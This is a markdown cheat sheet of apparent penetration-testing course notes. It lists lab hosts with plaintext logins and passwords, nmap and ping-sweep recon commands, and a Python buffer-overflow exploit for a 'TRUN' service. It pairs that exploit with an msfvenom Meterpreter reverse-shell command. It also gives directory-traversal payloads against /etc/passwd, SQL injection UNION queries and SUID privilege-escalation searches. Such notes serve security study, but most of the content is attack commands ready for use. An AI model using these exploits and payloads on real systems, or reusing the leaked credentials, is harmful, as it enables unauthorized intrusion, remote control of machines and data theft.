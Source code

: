 # Useful Links

## GTFO BINS
https://gtfobins.github.io/

## Security CTFD Server
https://sec.cybbh.io/public/security/latest/index.html

	CTFD Server: http://10.50.20.250:8000	
	User: NIRI-505-M  
	Pass: gVN5chrkxW0bym1 	

## LinOps:
	ssh -X student@10.50.22.235
	password1

 ## Winops:

	xfreerdp /u:student /p:password /dynamic-resolution +clipboard /v:10.50.29.77

 # Host Discovery 

     nmap -v -sT -Pn -T4 -sV 192.168.28.111,120

## Places to check

	ip n
 	ip a
  	cat /etc/hosts
   	ps -elf
    	ss -ntlp
     	
## HTTP Enumeration Script:

    nmap -v -sT -Pn -T4 --script=http-enum.nse 192.168.28.111 -p 80

## Ping Sweep: 

     for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" & ); done

     
### secureServerBuffo.py script
	#!/usr/bin/python2.7
	
	import socket
	
	'''
	625011AF
	625011BB
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.X.X lport=4444 -b "\x00" -f python
 	lhost = linux opstation, or whatever host is used to as the attack platform for operation. 
  
    Set multi/handler on msfconsole, & and use script with msfvenom payload 
	'''
	
	
	buf = "TRUN /.:/" #Exploit
	buf += "A" * 2003 #Buffer Offset
	buf += "\xa0\x12\x50\x62"  #JMP ESP
	buf += "\x90" * 15 #NOP SLED
	buf += #SHELLCODE HERE
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # Creates IPv4 socket
	
	s.connect(("0.0.0.0",412XX))    #IP and port to connect to through tunnel
 	print s.recv(1024)   #print response
	s.send(buf)       #sends the variable buf
	print s.recv(1024)   #print response
	s.close()         #close the connection



# Review 

nmap scan:

	nmap -v -sT -Pn -T4 -sV <ip>

http-enum scan

     	nmap -v -sT -Pn -T4 --script=http-enum.nse <ip> -p 80

      Check /img/ for network map

directory traversal:

	Usually found in File to Read search bar. 

	../../../../../etc/passwd
 	../../../../../etc/hosts
  
Fuzzing the pages:

	pick.php?product=7 OR 1=1 ;
 	products7 UNION SELECT 1,2,3

   	<URL>/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.tables	# golden Statement


Escalating Privs on Linux:

	find binaries with guid bit set. 

 	find / -type f -perm /2 -o -type d -perm /2 2>/dev/null  # Search for any file or directory that is writable by the context "other"

	find / -type f -perm /4000 -ls 2>/dev/null 	# finds commands with the suid bit set. 

	find / -type f -writable -o -type d -writable 2>/dev/null # Search for any file or directory that is writable by the current user /tmp 


Finding running service ports if nc doesn't give adequate results (Windows):
	
 	Grab pid # from: 
  		tasklist /sv | findstr <service name>
	run netstat -ano | findstr "pid#"



